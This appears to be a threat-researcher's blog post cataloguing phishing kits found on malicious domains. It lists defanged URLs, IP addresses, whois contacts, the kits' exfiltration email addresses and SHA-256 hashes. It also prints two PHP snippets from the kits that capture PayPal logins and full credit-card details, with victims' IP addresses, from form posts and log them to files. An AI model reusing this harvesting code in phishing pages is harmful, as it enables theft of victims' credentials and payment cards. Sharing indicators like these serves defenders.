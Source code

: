 # Crap I Found On The Internet (2020/10/13)

### Hey folks, here's another mini-update, this time with some more kits i found when combing through more domains. First, i'll have a table with the hosting information and whatnot, then below that will be a block of text with the sha256 hashes of the zip files in question.

### I acquired these kits earlier in the day, so by the time i was off work and had time to go get the IP addresses and whois data and all that, some had stopped resolving (okay, one or two), but i managed to get what i could on those using dig and riskIQ. 

| URL                                                                                      | IP                    | Whois/SOA                            | Exfil                                                         |
| ---------------------------------------------------------------------------------------- | --------------------- | ------------------------------------ | ------------------------------------------------------------- |
| boatbookings[.]xyz/ExRobotos-OfficeV4-2020%20(1)[.]zip                                   | 111[.]90[.]150[.]71   | hostmaster@registrar-servers[.]com   | Unconfigured                                                  |
| central-14345456478834345343[.]gq/CC_LOGIN%20(1)[.]zip                                   | 101[.]50[.]1[.]53     | soa@freenom[.]com                    | Writes to text file\*                                         |
| central-14345456478834345344[.]gq/CC_LOGIN%20(1)[.]zip                                   | 101[.]50[.]1[.]53     | soa@freenom[.]com                    | Writes to text file\*                                         |
| chat[.]whastapp[.]frontalgaming[.]frontal-gaming1[.]my[.]id/Wa18Fans_FrontalGaming[.]zip | 207[.]180[.]252[.]85  | fauziponcol21@gmail[.]com            | jokergila301@gmail[.]com                                      |
| diamondgratis[.]eventfreefirenew1[.]ml/SC-DIAMOND-LEVEL-1[.]zip                          | 95[.]111[.]241[.]149  | N/A                                  | emailkalian@gmail[.]com                                       |
| evant-freefire[.]neww[.]my[.]id/DIAMOND%20FF%20GG%5BDIT%20SANTUY%5D-1[.]zip              | 192[.]210[.]219[.]168 | admin@nemesis-hostlive[.]my[.]id     | pakeemaillo@gmail[.]com                                       |
| facebookhelpcheckpoint[.]my[.]id/cgi-bin[.]zip                                           | 95[.]111[.]241[.]149  | N/A                                  | ggmild933@gmail[.]com                                         |
| join-grup[.]wa[.]buggg-eventss[.]cf/fake-login-facebook[.]zip                            | 62[.]77[.]159[.]72    | root@2zfq[.]c[.]serverhost[.]name    | Unconfigured                                                  |
| lju98[.]winaccesssecuredexxr[.]xyz/ANSUSA27julsouupdated[.]zip                           | 142[.]4[.]3[.]120     | dns@hostinger[.]com                  | none, phone number 08004049735                                |
| navadalandlop[.]xyz/godaddy%20firebase%20setup[.]zip                                     | 93[.]157[.]63[.]185   | root@root[.]com                      | logpaul895@yandex[.]com<br/>02londonsex@gmail[.]com           |
| navadalandlop[.]xyz/owa/goowa[.]zip                                                      | 93[.]157[.]63[.]185   | root@root[.]com                      | logpaul895@yandex[.]com<br/>02londonsex@gmail[.]com           |
| realrespond[.]ga/cf/Ourtime%20(2)[.]zip                                                  | 13[.]68[.]158[.]118   | soa@freenom[.]com                    | maryronda7@gmail[.]com                                        |
| realrespond[.]ga/dc/Ourtime%20(2)[.]zip                                                  | 13[.]68[.]158[.]118   | soa@freenom[.]com                    | maryronda7@gmail[.]com                                        |
| reeldealyachts[.]xyz/ExRobotos-Redirect-v4-2020%20(1)[.]zip                              | 111[.]90[.]150[.]71   | N/A                                  | N/A (just a redirection script)                               |
| sdffgewr[.]cf/amaz[.]zip                                                                 | 185[.]221[.]216[.]4   | markusm122@yahoo[.]com               | collinshofmann@outlook[.]com<br/>castilloalphonso@gmail[.]com |
| sdffgewr[.]ml/amaz[.]zip                                                                 | 185[.]221[.]216[.]4   | markusm122@yahoo[.]com               | collinshofmann@outlook[.]com<br/>castilloalphonso@gmail[.]com |
| servicefax1[.]tk/365/redirect[.]zip                                                      | 103[.]153[.]182[.]126 | root@103-153-182-126[.]cprapid[.]com | N/A (just a redirection script)                               |
| terta-71[.]cf/wells/Wells[.]zip                                                          | 162[.]241[.]117[.]240 | soa@freenom[.]com                    | jim6601@outlook[.]com<br/>speaker6692@gmail[.]com             |

#### * writes to either `____________PAYPAL_________.txt` or `___________________________C^C________________________.txt` (see below)

```
# log4.php
$file = "____________PAYPAL_________.txt";
$paypalmail = $_POST['paypalmail'];
$pwpaypal = $_POST['pwpaypal'];
$ip = $_SERVER['REMOTE_ADDR'];


$handle = fopen($file, 'a');
fwrite($handle, "xxxxPAYPALxxxx");
fwrite($handle, "\n");
fwrite($handle, "::  EMAIL     ::   ");
fwrite($handle, "$paypalmail");
fwrite($handle, "\n");
fwrite($handle, "::  PASS      ::   ");
fwrite($handle, "$pwpaypal");
fwrite($handle, "\n");
fwrite($handle, "::  IP        ::   ");
fwrite($handle, "$ip");
fwrite($handle, "\n");
fwrite($handle, "xxxxPAYPALxxxx");
fwrite($handle, "\n");
fclose($handle);
```

```
# log2.php & log3.php:
$file = "___________________________C^C________________________.txt";
$firstName = $_POST['firstName'];
$creditCardNumber = $_POST['creditCardNumber'];
$month = $_POST['month'];
$year = $_POST['year'];
$csc = $_POST['csc'];
$street = $_POST['street'];
$city = $_POST['city'];
$state = $_POST['state'];
$zip = $_POST['zip'];
$country = $_POST['country'];
$ip = $_SERVER['REMOTE_ADDR'];
$today = date("F j, Y, g:i a");


$handle = fopen($file, 'a');
fwrite($handle, "xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx");
fwrite($handle, "\n");
fwrite($handle, "::  NAMA      ::   ");
fwrite($handle, "$firstName");
fwrite($handle, "\n");
fwrite($handle, "::  CREDIT    ::   ");
fwrite($handle, "$creditCardNumber");
fwrite($handle, "\n");
fwrite($handle, "::  BULAN     ::   ");
fwrite($handle, "$month");
fwrite($handle, "\n");
fwrite($handle, "::  TAHUN     ::   ");
fwrite($handle, "$year");
fwrite($handle, "\n");
fwrite($handle, "::  CSC       ::   ");
fwrite($handle, "$csc");
fwrite($handle, "\n");
fwrite($handle, "::  POS       ::   ");
fwrite($handle, "$zip");
fwrite($handle, "\n");
fwrite($handle, "::  NEGARA    ::   ");
fwrite($handle, "$country");
fwrite($handle, "\n");
fwrite($handle, "::  IP        ::   ");
fwrite($handle, "$ip");
fwrite($handle, "\n");
fclose($handle);
```

```
a0ad6eb4ca1855c4aab9d2a8f368c74328aef1b9abfc76b3c805627eefb05969  boatbookings.xyz/ExRobotos-OfficeV4-2020%20(1).zip
f511f0bc01552ec63e9db71c728cac556e8f889bb19f90f2bb5064602ad4f37f  central-14345456478834345343.gq/CC_LOGIN%20(1).zip
f511f0bc01552ec63e9db71c728cac556e8f889bb19f90f2bb5064602ad4f37f  central-14345456478834345344.gq/CC_LOGIN%20(1).zip
1fe1ff7a30b26d9c95aa033a362a38166c083e464033b2643c1d803a2b8b13b7  chat.whastapp.frontalgaming.frontal-gaming1.my.id/Wa18Fans_FrontalGaming.zip
c61712d18ebc87f882614b39fc122cfc89415452543ab60a45f807884a96c94e  diamondgratis.eventfreefirenew1.ml/SC-DIAMOND-LEVEL-1.zip
6989cb64fbda4102d829ef38b2142fd3da8389b4feae0105f2363641d16cf30d  evant-freefire.neww.my.id/DIAMOND%20FF%20GG%5BDIT%20SANTUY%5D-1.zip
d6391a710c49b841dcbdbf7e3d03f4998ff3b507bcbb591e6a5a2e83c15506a2  facebookhelpcheckpoint.my.id/cgi-bin.zip
2054d0cd4e84422071a79f4519ac04cb09edd969eb8565238fc7802e87a29872  join-grup.wa.buggg-eventss.cf/fake-login-facebook.zip
7d6d810f3e07987be39e3737a73bb021ad8f460e085d063cb8f296b0361dedbf  lju98.winaccesssecuredexxr.xyz/ANSUSA27julsouupdated.zip
54251d81b5f212b3fb15f10f86260a6d6febb857c8f8a03a3895bfa0650ba5dd  navadalandlop.xyz/godaddy%20firebase%20setup.zip
ea0196b3b22f8962fad23f0948ce856fc56e555fcb51b5c42a8d96fca4796954  navadalandlop.xyz/owa/goowa.zip
b334855a53c08da7585fe4d556f291222b2c51f3764b406e8b6a6f719420d5c8  realrespond.ga/cf/Ourtime%20(2).zip
b334855a53c08da7585fe4d556f291222b2c51f3764b406e8b6a6f719420d5c8  realrespond.ga/dc/Ourtime%20(2).zip
415e3154b1220d8d5574e8204fb2e00a40bdca00181ffa1e225a91628fdb20b4  reeldealyachts.xyz/ExRobotos-Redirect-v4-2020%20(1).zip
b36a436adff6d98ebfe70a5cfe68e65010d6e8fe7b861496b207a95a8d5cedbf  sdffgewr.cf/amaz.zip
b36a436adff6d98ebfe70a5cfe68e65010d6e8fe7b861496b207a95a8d5cedbf  sdffgewr.ml/amaz.zip
c71b60c3c955e3a00482bc309a7ac2359a4af7dd343bcadad4fb9919fc21216c  servicefax1.tk/365/redirect.zip
7c1a32e78d79e644b5be584820247cd786bcf4f7c526c33e81e7d4f093a64a91  terta-71.cf/wells/Wells.zip
```

### Going to work on getting the samples uploaded to [malshare](https://malshare.com) for researchers to take a look if they want (since not everyone can afford virustotal enterprise)



[Return to index](/)
